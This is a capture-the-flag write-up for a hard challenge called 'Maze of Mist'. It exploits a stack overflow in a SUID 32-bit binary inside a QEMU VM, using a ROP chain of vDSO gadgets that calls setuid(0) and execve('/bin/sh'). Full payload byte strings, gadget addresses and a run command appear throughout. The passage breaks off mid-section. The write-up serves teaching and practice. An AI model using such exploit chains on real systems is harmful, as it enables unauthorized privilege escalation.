# **Maze of Mist | hard | 43 solves**
As you stride into your next battle, an enveloping mist surrounds you, gradually robbing you of eyesight. Though you can move, the path ahead seems nonexistent, 
leaving you stationary within the confines of your existence. Can you discover an escape from this boundless stagnation?

# Prerequisits
I am assuming the reader has some experience in binary exploitation, specifically buffer overflow and ROP (return-oriented-programming).

# TL;DR

# Intro
Downloading the zip file and unzipping it on our linux machine (I use kali in WSL), we notice can see the following files:

```
└─$ ls
initramfs.cpio.gz  run.sh  vmlinuz-linux
```

As we received files named `initramfs.cpio.gz` and `vmlinuz-linux` (these are typical components of a Linux kernel and an initial file system) we can understand that this challenge runs in a VM that the server runs, rather than directly on the remote server.

Catting `run.sh`:

```
└─$ cat run.sh
#!/bin/sh

qemu-system-x86_64 \
    -m 128M \
    -nographic \
    -kernel "./vmlinuz-linux" \
    -append "console=ttyS0 quiet loglevel=3 oops=panic panic=-1 pti=on kaslr" \
    -monitor /dev/null \
    -initrd "./initramfs.cpio.gz" \
    -cpu qemu64,+smep,+smap,+rdrand \
    -smp cores=2
```

We see it is using qemu to run it. Let's run `run.sh` and see what this gives us.

We end up in the root of a system with the following files/directories:

```
challenger@arena:/$ ls -l
total 16
drwxr-xr-x    2 root     root          1900 Feb  6 09:26 bin
drwxr-xr-x    5 root     root          2560 Mar 13 18:32 dev
drwxr-xr-x    2 root     root            80 Feb  6 09:26 etc
drwxr-xr-x    2 root     root            40 Feb  6 09:26 home
-rwx------    1 root     root           470 Feb  6 09:26 init
-rw-r--r--    1 root     root             0 Feb  6 09:29 initramfs.cpio.gz
lrwxrwxrwx    1 root     root            11 Feb  6 09:26 linuxrc -> bin/busybox
drwxr-xr-x    2 root     root            40 Feb  6 09:26 mnt
dr-xr-xr-x  120 root     root             0 Mar 13 18:32 proc
drwx------    2 root     root            60 Feb  6 09:29 root
drwxr-xr-x    2 root     root          1480 Feb  6 09:26 sbin
dr-xr-xr-x   13 root     root             0 Mar 13 18:32 sys
-rwsr-xr-x    1 root     root          8752 Feb  6 09:26 target
drwxr-xr-x    4 root     root            80 Feb  6 09:26 usr
drwxr-xr-x    2 root     root            40 Feb  6 09:26 var
```

The 2 things that catch the eye is the `root` folder, which probably contains the flag, and the `target` binary, which has it's `suid` bit set and is owned by root. Which means that whenever we execute it, it is ran under the priviliges of root.

Sadly we cannot perform any real analysis on the binary inside this VM, as even the `file` command isn't present. Let's exit the VM, extract `initramfs` and analyze it.

```
┌──(nati㉿ABRAHAM)-[~/ctf/htb_apocalypse/maze_of_mist_writeup/maze_of_mist]
└─$ gunzip initramfs.cpio.gz

┌──(nati㉿ABRAHAM)-[~/ctf/htb_apocalypse/maze_of_mist_writeup/maze_of_mist]
└─$ ls
initramfs.cpio  run.sh  vmlinuz-linux

┌──(nati㉿ABRAHAM)-[~/ctf/htb_apocalypse/maze_of_mist_writeup/maze_of_mist]
└─$ mkdir initramfs

┌──(nati㉿ABRAHAM)-[~/ctf/htb_apocalypse/maze_of_mist_writeup/maze_of_mist]
└─$ mv initramfs.cpio initramfs

┌──(nati㉿ABRAHAM)-[~/ctf/htb_apocalypse/maze_of_mist_writeup/maze_of_mist]
└─$ cd initramfs/

┌──(nati㉿ABRAHAM)-[~/ctf/htb_apocalypse/maze_of_mist_writeup/maze_of_mist/initramfs]
└─$ cpio -id < initramfs.cpio
4959 blocks

┌──(nati㉿ABRAHAM)-[~/ctf/htb_apocalypse/maze_of_mist_writeup/maze_of_mist/initramfs]
└─$ ls
bin  dev  etc  home  init  initramfs.cpio  initramfs.cpio.gz  linuxrc  mnt  proc  root  sbin  sys  target  usr  var
```

Alright, let's start.

# Analysis
```
└─$ file target
target: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

First of all the binary is 32-bit and statically linked - which means it doesn't depend on any dynamic libraries.

Running `checksec`:
```
└─$ checksec target
[*] '/home/nati/ctf/htb_apocalypse/maze_of_mist_writeup/maze_of_mist/initramfs/target'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Only `NX` is enabled. Which means we probably have a buffer overflow.

Let's open the binary in `IDA` (32 bit) and see what we have:



Wow, only 2 functions? Let's see:



The `_start` function only prompts the user with a message, and then calls vuln. Let's open it:



So we indeed see an obvious buffer overflow here, `addr` is of size 32 bytes while we are reading 0x200 (512) bytes into it. But how can we exploit it?

# Debugging the binary
In order to debug the binary in the correct environement, and not in our host machine (don't do the mistake I did and banged my head against the wall for a hour because of), I had to set up a `gdb` in the file system, because it's a minimal system that uses `busybox` (more on that later) that only has the basic commands of a linux system available.

So I found a statically compiled gdb in here: https://github.com/hugsy/gdb-static, thanks internet people (I've downloaded the x32 one), and added it to the initramfs directory we extraced earlier.

```
└─$ ls
bin  etc             home  initramfs.cpio     linuxrc  proc  sbin  target      target.id1  target.nam  usr
dev  gdb-7.10.1-x32  init  initramfs.cpio.gz  mnt      root  sys   target.id0  target.id2  target.til  var
```

(The files ending in `id*` are ida generated files)
What is left is to recompress the archive again. But before that, there is something important we have to do. You may have noticed that in the root directory there's also a file named `init`. This file is a shell script which is run when the system starts. Checking it's contents:

```
└─$ cat init
#!/bin/sh

export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '

chown -R root:root /
chmod 0700 /root

mount -t proc none /proc
mount -t sysfs none /sys
mount -t devpts -o gid=5,mode=0620 devpts /dev/pts
mount -t devtmpfs -o nosuid,mode=0755 udev /dev

chmod 0400 /root/flag.txt
chmod u+s /target

hostname arena
echo 0 >/proc/sys/kernel/randomize_va_space

setsid cttyhack setuidgid 1000 /bin/sh

umount /proc && umount /sys
poweroff -d 0 -f
```

We see it does some setup for the environement. Notice 2 things:

`chown -R root:root /`

This line sets all files to be owned by root. We don't want that for the purpose of debugging, so let's comment it.

`# chown -R root:root /`

But we still want `target` to be `root`, because that's what the challenge is about :) So let's add the line:

`chown root:root target`

There's also this line:

`echo 0 >/proc/sys/kernel/randomize_va_space`

This lines completely disables ASLR. This will be very important later.

Now recompress the cpio archive (I copied the commands from some article on the internet. You can (and I encourage you) to ask chatGPT about them):

```
└─$ find . -print0 | cpio --null -ov --format=newc > initramfs.cpio
```

Then gzip it:
```
gzip initramfs.cpio
```

And move the resulting file to the directory with `run.sh`

`└─$ mv initramfs.cpio.gz ..`

Let's run the VM once again:



Great! We are now able to debug the binary!

# Finding where to return to
As we saw earlier, the binary is stupidly small. It only has 2 function with no more than 5 lines of code each. Usually when pwning binaries that are vulnerable to stack overflow, we would want to jump to some win functions, or use ROP to call `system` from libc.

As we have neither (remember, the binary is static, no libc will be loaded), we have to find another way. We're still gonna use ROP. It's just that we won't have easy gadgets to use. We're gonna have to directly use syscalls, as that's our only option.

Let's set a breakpoint and see what we have in runtime.



We see our target binary and it's sections. Not really interesting. The stack is not very interesting too, since NX is enabled.

We're left with 2 sections: `vvar` and `vdso`. What are they?

**Wikipedia:** vDSO (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode that is inherent when calling these same kernel space routines by means of the system call interface.

Basically `vdso` are some kernel functions which are loaded into every process to make calling certain, common syscalls faster.

To aid virtual system calls, variables from the kernel address space are also mapped to the user-space addresses in the process, namely `vvar`.

Hmm... why does that help us? Well, in `vdso` are functions. Instructions. Which means - that's right - their addresses have executes permissions! Woo! We found more potential ROP gadgets!

# Finding gadgets
Well we can't use ROPgadget in the system, since it has no python. There probably was a better way to do this, but in order to find ROP gadgets in `vdso`, I first dumped the bytes of it (vdso's size is 0x2000 - 8192 bytes long). Remember to `set pagination off`:



Copied it allll the way down to the last byte, pasted it into a file one my host machine, and used a script which I'll provide in the repo to parse the bytes into the actual bytes and store them into a file. I will also provide the actual resulting `vdso` "fake" file so you won't have to go through the pain yourself.

Now you should have your totally legit vdso file ready to be searched for gadgets:

```
file vdso_mem_parsed
vdso_mem_parsed: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, BuildID[sha1]=3217528fe99bd85fcb961d07aa790af666c989c7, stripped
```

Let's run ROPgadget:

```
└─$ ROPgadget --binary=vdso_mem > gadgets.txt
```

Cat it and grep `ret`, so you'll only see gadgets ending in `ret`:

```
cat gadgets.txt | grep ret
```

Now we want to search for gadgets. But wait. I still haven't said what we're trying to achieve. Well obviously we want a root shell - so we'll need to get the program to execute one. How? The classic `execve("/bin/sh")`.

# ROP
Looking at the x32 syscall calling conventions (https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit), we will need our registers looking like this when we get to a `int 0x80` (syscall in x32) instruction:

```
eax = 0xb (execve)
ebx = ptr to "/bin/sh" string
ecx = ptr to argv=["/bin/sh", NULL]
edx = NULL
```

If you had some experience in shellcoding in linux, you'd probably notice that I didn't leave argv NULL, as done commonly because, well, we can. Normally it's enough to just pass to `execve` a ptr to a string with the path to the file we wanna execute. But here it's different. Remember that I talked about `busybox` earlier? Well here is the *first* problem it causes.

Basically `busybox` is a single executable that has many common linux binaries inside itself, and it's size is minimized. This is typically used on embedded devices with limited resources.

This results in the fact that every other executable on the system, under `/bin`, is just a `symlink` to `busybox`. For example we call `ls`. It will just execute `busybox` instead. But how does busybox know which command was ran in the first place? It looks at `argv[0]`, which contains the exact name used to run the program.

Now that we understand how busybox box and why our registers need to by the way I presented above, let's start ROPing.

Looking at the `gadgets.txt` file from earlier, we can find `pop ebx`, `pop ecx` and `pop edx` gadgets pretty easily:

```
0x000015cd : pop ebx ; pop esi ; pop ebp ; ret
0x0000057a : pop edx ; pop ecx ; ret
```

But there's not a single `pop eax`. So we have to get creative here. I was able to find the following gadgets to get `eax` to be the syscall number we need:

```
0x000008cc : xor al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x000015d3 : add al, 0x24 ; ret
```

* I suggest you copy the final exploit into a file (you can use printf and redirect the output to a file), and run the binary in `gdb` with the file as input, for example `run < payload_file`. This way you can follow along and understand how the magic happens all the way until we get a shell. Be sure to check [One last obstacle](#One-last-obstacle) section to overcome the trouble of pasting the payload directly. Remember to redriect to a file rather than pipe to `target`, and remove the `cat`.

We need to get `eax` to be `0xb`. After returning from `_vuln` (which is where our ROP chain will begin) it is 0. If we first `xor` it with `0x5b`, and add `0x24` enough times (because it's `al`, it'll wrap around after getting to `0xff`), we can get `eax` to be `0xb`.

I've already done the very simple math, and it turns our that after the `xor`, we need to add `0x24` 12 times to `al`, so it turns to `0x20b`, but will actually wrap to `0xb`.

Now ebx. we want to pop into `ebx` the address of `/bin/sh`, so let's write it in our input:



Here I put a breakpoint on the `int 0x80` instruction in _vuln. Now we can note the stack address, but first - very important! Make sure to unset the **env variables** set by `gdb` - `LINES` and `COLUMNS` using `unset env` so that the environement variables in gdb will match those outside! Otherwise it'll mess up the stack!

Okay, let's note the address of our input - `0xffffde4c`, and at the same time also notice how many bytes we need to get to the return address. It is 32. And yet again at the same time, let's also decide of an address for our `argv` array. i'll choose `0xffffde5c`, 0x10 bytes after our "/bin/sh". We need to put a pointer to the "/bin/sh" string in argv[0] - `0xffffde4c`, and then immediatly after that, in argv[1] - 4 null bytes to indicate the end of the array.

The first part of our payload should look like this (I could probably and better have used pwntools to do all of this, but it was troublesome with the VM for some reason). All addresses are little endian of course:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB
```

Where we have our 8-length "/bin/sh\x00" string, 8 junk bytes, then our `argv` array begins with a ptr to "/bin/sh", NULL byte that ends the array, and 8 more junk bytes in order to get to the return address.

Next - where do we return to first? Let's start with setting eax. As noted before, we first jump to the `xor eax, 0x5b` address. Calculating it's address using the base address of `vdso` we found earlier and the offset of the gadget we also found earlier, we get `0xf7ffc8cc`. Then we have those 3 irrelevant pops in the same gadget which won't affect anything, so let's just pop junk into them. After that comes the `ret`, the next address we return to should be the one of `add al, 0x24`, which is `0xf7ffd5d3`. As noted before, we need to return to it 12 times.

Our exploit should look like this now:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBBxcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7
```

*It is starting to get really ugly, but trust me - it's worth it.

Where do we return to next? we want to set ebx. So let's return to the ROP gadget from earlier, it's address: 0xf7ffd5cd. We pop "/bin/sh"'s address - `0xffffde4c` - to ebx, and Again we have irrelevant pops in the same gadget, let's pop junk to it. 

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBBxcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB
```

Now we want to jump the the gadget of `edx` and `ecx`. It's address is `0xf7ffc57a`. In `edx` we want to have `NULL`, and in `ecx` a pointer to our `argv` from earlier - `0xffffde5c`. Let's chain that to our exploit:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBBxcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff
```

Finally we want to jump to a `int 0x80` instruction to initiate the shell! If our calculations are right, we should have our shell right away.

Let's use `printf` to print the output and pipe it to the binary. Also remember to use the `cat` so the shell doesn't close immediatly after executing. If you don't know what I am talking about, watch this video (around minute 10): https://www.youtube.com/watch?v=HSlhY4Uy8SA.

```
(printf '/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08' ; cat) | ./target
```



Yesss! We got a shell!

Wait a damn minute... what the hell? What aren't we root? Why are we still that crappy user `challenger`? Wasn't the binary `suid` and owned by `root`? What is going on here? I'll you what is going on.

# Busybox is causing trouble yet again
It took me a while to figure this out, but as we remember, the binary `/bin/sh` isn't actually ran, it's actually `/bin/busybox` that's running. And apperantly busybox has a security mitigations where it drops all priviliges acquired by `setuid`, by setting the `euid` of the process (which is root) to the `uid` of the process (which is the low priviliged user `challenger`). Here is the part in the source code of `busybox` where that happens:
https://github.com/mirror/busybox/blob/2d4a3d9e6c1493a9520b907e07a41aca90cdfd94/libbb/appletlib.c#L638.

So what do we have to do? That's right - before executing "/bin/sh" we have to set our `uid` to `root`, so that `busybox` won't even bother to change the `euid` (even if it were to, it'll still be root): https://github.com/mirror/busybox/blob/2d4a3d9e6c1493a9520b907e07a41aca90cdfd94/libbb/appletlib.c#L555

# Setting uid
Let's set our `uid` to `0` which is `root`. This is even simpler than the previous ROP. Looking at the docs ones again (https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit), the registers should look like this:

```
eax = 0x17 (setuid)
ebx = 0 (root uid)
```

We can use the same gadgets from before. To set eax, we use the same trick of `xor` and `add`, this luckily works since we can get a `7` at the end by adding `0x24` to something that ends in `b` (`0x5b`) repeatedly. I've already done the math for you, and we need to add `0x24` 55 times to `0x5b` in order to get it to wrap around to `0x17`. So let's perform the rop once again, we need to:

jump to `0xf7ffc8cc` which is that `xor eax, 0x5b`. 0xf7ffd5d3. Again irrelevant pops in the gadgets, let's pop junk to them. And then... 55 times return to `add al, 0x24`! Let's see the payload - remember that we have to do it BEFORE calling `execve`. So I will be inserting it right before everything we did to call `execve`, that means 32 bytes from the starts of the payload. It's getting pretty long now, but don't get intimidated, it's just those 55 returns. I've split the payload for convenience, we'll be chaining it back together at the end:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7

execve part:

\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08
```

Next we want to set `ebx`. Let's once again use the same gadget from before. We're popping `0` to `ebx`, and junk for the other 2 pops. And finally, we'll want call `int 0x80`, like before:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x00\x00\x00\x00AAAABBBB\x10\x90\x04\x08

execve part:

